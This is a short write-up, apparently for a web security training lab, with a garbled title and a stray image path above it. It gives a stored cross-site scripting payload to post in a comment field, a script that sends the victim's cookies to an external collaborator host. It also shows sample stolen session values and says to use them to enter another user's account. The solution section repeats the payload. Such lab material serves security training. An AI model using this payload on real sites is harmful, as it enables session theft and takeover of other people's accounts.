 # Lab: ????????
## Description


r0s3k898zg3loykrkxo9bzghg8myan.burpcollaborator.net


Post the following in the comment field:
```html
<script>document.location="http://r0s3k898zg3loykrkxo9bzghg8myan.burpcollaborator.net/"+document.cookie;</script>
```

This will trigger a request to Burp Colab server with data similar to this:
```
/secret=pCJGg48okzJR0V9mJc8RQzmo1GjIstOD;%20session=pDJ0EkU6jV8pNjbWqiXh0fOuoAm07VvP
```

Use the session to access another users account.

## Solution

```html
<script>document.location="http://r0s3k898zg3loykrkxo9bzghg8myan.burpcollaborator.net/"+document.cookie;</script>
```

